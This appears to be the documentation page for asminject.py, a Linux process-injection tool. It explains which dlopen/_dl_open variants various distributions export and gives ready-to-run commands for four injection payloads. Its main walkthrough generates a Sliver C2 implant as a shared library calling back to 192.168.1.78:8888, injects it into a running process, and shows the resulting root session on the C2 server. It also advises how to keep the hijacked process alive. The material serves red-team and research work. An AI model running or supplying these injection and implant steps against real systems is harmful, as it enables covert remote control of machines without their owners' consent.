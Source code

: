 # asminject.py examples - Shared library injection

* [Background](#background)
* [Important](#important)
* [dlopen with multithreading](#dlopen-with-multithreading)
* [_dl_open with multithreading\](#dl-open-with-multithreading)
* [dlopen without multithreading](#dlopen-without-multithreading)
* [_dl_open without multithreading\](#dl-open-without-multithreading)

## Background

Injecting a shared library (`.so` file) into an existing process was the entire purpose of the [dlinject.py](https://github.com/DavidBuchanan314/dlinject) tool that `asminject.py` was originally derived from. `asminject.py` includes several payloads to achieve the same type of goal, depending on the specifics of the Linux distribution where you're running it.

When `asminject.py` was originally developed, `dlinject.py` was hardcoded to look for a function named `_dl_open` in the `ld` library and call it. However, at least in 2021, not every Linux distribution included a version of the `ld` library that exported `_dl_open` or an equivalent function. Here are the permutations I've discovered so far while testing `asminject.py`:

* Debian and derivatives
  * Debian
    * Debian 10.6, ARM32 (Raspberry Pi)
	  * `libc` version is Debian GLIBC 2.28-10+rpi1
      * `ld` library does not export `_dl_open`
	  * `libdl` library exports `dlopen` with signature `void *dlopen([const] char *filename, int flags);`
	  * `libc` library exports `__libc_dlopen_mode`
  * Kali
    * kali-rolling (updated in June 2022), x86-64
      * `libc` version is Debian GLIBC 2.33-6
      * `ld` library does not export `_dl_open`
      * `libdl` library exports `dlopen` with signature `void *dlopen([const] char *filename, int flags);`
      * `libc` library exports `__libc_dlopen_mode`
* OpenSUSE
  * OpenSUSE Tumbleweed 20220719, x86 (32-bit)
    * `libc` version is GNU libc 2.35
    * `ld` library exports `_dl_open`, and the signature should be `void * _dl_open(const char *file, int mode, const void *caller_dlopen, Lmid_t nsid, int argc, char *argv[], char *env[]);`
	* `libdl` library does not export `dlopen`
	* `libc` library exports `dlopen` with signature `void *dlopen([const] char *filename, int flags);`

Some (older?) versions of `ld` allegedly use(d?) a simpler signature for `_dl_open`: `void * _dl_open(const char *file, int mode, const void *caller_dlopen);`, but I haven't run across this yet in order to test it.

In most cases, you should be able to use the first example below, because it handles both the `libdl` and `libc` variations on calling the `dlopen` function, and it's multithreaded, so the target process should continue as usual after the code is injected. The other options are provided for more constrained scenarios, e.g. if the target process doesn't have `libpthread` available, or if it's more advantageous to call `_dl_open` to avoid a particular detection mechanism.

## Important

Regardless of the payload and shared library you select, in virtually all cases you should avoid causing the shared library to issue a process-level `exit`, as this will cause the target process to exit as well. In my testing, common C2 agents for Linux will perform a system-level exit instead of a thread-level exit. I assume this is because unlike Windows, where calling a thread-level `exit` is more or less the same across versions, locating and calling the `pthread_exit` function on an arbitrary Linux distribution and version is more complicated, and so most(?) C2 authors don't implement it.

In the case of [Sliver](https://github.com/BishopFox/sliver) and [Metasploit](https://github.com/rapid7/metasploit-framework), what this means is that instead of e.g. calling `kill` in a Sliver session or `exit` in a Meterpreter session, you should just send the session to the background unless you absolutely want the target process to exit.

## dlopen with multithreading

The `dlinject-threaded.s` payload is the preferred option for injecting shared libraries into an existing process using `asminject.py`. It is the most straightfoward, best supported on various distributions (at least in my testing), and the target process will continue executing normally after injection.

This payload requires one variable: `librarypath`, which should point to the library you want to inject.

This payload requires relative offsets for the `ld` shared library used by the target process.

Locate or build a `.so` file to open. For example, to set up a [Sliver](https://github.com/BishopFox/sliver) C2 listener and implant:

```
# ./sliver-server     

    ███████╗██╗     ██╗██╗   ██╗███████╗██████╗
    ██╔════╝██║     ██║██║   ██║██╔════╝██╔══██╗
    ███████╗██║     ██║██║   ██║█████╗  ██████╔╝
    ╚════██║██║     ██║╚██╗ ██╔╝██╔══╝  ██╔══██╗
    ███████║███████╗██║ ╚████╔╝ ███████╗██║  ██║
    ╚══════╝╚══════╝╚═╝  ╚═══╝  ╚══════╝╚═╝  ╚═╝

All hackers gain infect
[*] Server v1.5.17 - 814670dc6d023f290fefd3e0fd7e0c420f9bb2e8
[*] Welcome to the sliver shell, please type 'help' for options

...omitted for brevity...

[server] sliver > mtls

[*] Starting mTLS listener ...

[server] sliver > jobs

 ID   Name   Protocol   Port 
==== ====== ========== ======
 2    mtls   tcp        8888 

[server] sliver > generate --mtls=192.168.1.78:8888 --os=linux --arch=386 --format=shared --save=/home/user --skip-symbols

[*] Generating new linux/386 implant binary
[!] Symbol obfuscation is disabled
[*] Build completed in 00:01:48
[*] Implant saved to /home/user/MAGENTA_NEEDLE.so
```

Inject the DLL into the target process:

```
# python3 ./asminject.py 1957286 dlinject-threaded.s --arch x86\
   --relative-offsets-from-binaries --stop-method "slow" \
   --var librarypath "/home/user/MAGENTA_NEEDLE.so"
```

Back in the Sliver console, you should see something like this:

```
[*] Session 5abe2db4 MAGENTA_NEEDLE - 192.168.1.79:5976 (localhost.localdomain) - linux/386 - Fri, 29 Jul 2022 15:35:21 PDT

[server] sliver > sessions -i 5abe2db4

[*] Active session MAGENTA_NEEDLE (5abe2db4)

[server] sliver (MAGENTA_NEEDLE) > info

        Session ID: 5abe2db4-cf75-46aa-bb41-7ad288028f0d
              Name: MAGENTA_NEEDLE
          Hostname: localhost.localdomain
              UUID: 0f444f35-de17-41a3-bc44-c30405c83d04
          Username: root
               UID: 0
               GID: 0
               PID: 30320
                OS: linux
           Version: Linux localhost.localdomain 5.18.11-1-pae
              Arch: 386
         Active C2: mtls://192.168.1.78:8888
    Remote Address: 192.168.1.79:5976
         Proxy URL: 
Reconnect Interval: 1m0s
```

## _dl_open with multithreading

The `dlinject-ld-threaded.s` payload mimics the original `dlinject.py`, calling the `_dl_open` function that some versions of the `ld` library export (e.g. on OpenSUSE), and is multithreaded so that the target process continues executing normally after injection. `dlinject-ld-threaded.s` is currently an experimental feature, and only provided for the x86 architecture.

```
# python3 ./asminject.py 1957286 dlinject-ld-threaded.s --arch x86 \
   --relative-offsets-from-binaries --stop-method "slow" \
   --var librarypath "/home/user/MAGENTA_NEEDLE.so"
```
## dlopen without multithreading

The `dlinject.s` payload is identical to the `dlinject-threaded.s` payload, except that it does not spawn a separate thread. This has the downside of not allowing the target process to keep executing normally after injection, but means that `libpthread` is not required. Just swap out the payload name, e.g.:

```
# python3 ./asminject.py 1957286 dlinject.s --arch x86-64 \
   --relative-offsets-from-binaries --stop-method "slow" \
   --var librarypath "/home/user/MAGENTA_NEEDLE.so"
```

## _dl_open without multithreading

The `dlinject-ld.s` payload is identical to `dlinject-ld-threaded.s`, except that it does not call `_dl_open` in a separate thread. Like `dlinject.s`, this means that the `libpthread` library functions are not required, but it also means that the target process will stop doing its normal work in favour of whatever the injected code starts doing. `dlinject-ld.s` is currently an experimental feature, and only provided for the x86 architecture.

```
# python3 ./asminject.py 1957286 dlinject-ld.s --arch x86 \
   --relative-offsets-from-binaries --stop-method "slow" \
   --var librarypath "/home/user/MAGENTA_NEEDLE.so"
```
